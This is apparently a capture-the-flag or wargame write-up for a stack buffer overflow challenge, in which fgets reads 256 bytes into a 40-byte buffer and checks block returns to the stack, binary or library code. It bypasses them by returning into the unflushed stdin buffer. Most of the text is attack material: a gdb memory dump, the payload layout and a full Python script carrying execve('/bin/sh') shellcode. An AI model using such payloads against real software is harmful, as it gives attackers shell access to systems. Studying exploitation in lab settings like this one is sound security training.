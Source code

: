 # Vulnerability
```c
char buffer[40];
char *ret_addr;

// overflow!
fgets(buffer, 256, stdin);
```
This program copys 256bytes so I can overwrite SFP & RET address.

The protection code is:
```c
if(*(buffer+47) == '\xbf')
{
  printf("stack retbayed you!\n");
  exit(0);
}

if(*(buffer+47) == '\x08')
      {
              printf("binary image retbayed you, too!!\n");
              exit(0);
      }

// check if the ret_addr is library function or not
memcpy(&ret_addr, buffer+44, 4);
while(memcmp(ret_addr, "\x90\x90", 2) != 0)	// end point of function
{
  if(*ret_addr == '\xc9'){		// leave
    if(*(ret_addr+1) == '\xc3'){	// ret
      printf("You cannot use library function!\n");
      exit(0);
    }
  }
  ret_addr++; 
}
```
So I am not able to use binary image or stack or library.

# Exploitation
When using fgets, there is stdin buffer that saves user's input.

This program does not reset that stdin buffer so I can return to that address.

The stdin address is 0x40015000:
```
(gdb) x/16x stdin
0x401068c0 <_IO_2_1_stdin_>:	0xfbad2288	0x40015011	0x40015011	0x40015000
0x401068d0 <_IO_2_1_stdin_+16>:	0x40015000	0x40015000	0x40015000	0x40015000
```

The payload will be:
```
--------------------------------------------------------------
| "\x90"*15 | Shellcode(25 bytes) | "AAAA" | stdin's address |
--------------------------------------------------------------
```
# Payload
```python
payload = ""
payload = payload + "\x90"*15
payload = payload + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
payload = payload + "AAAA"
payload = payload + "\x00\x50\x01\x40"

print payload
```
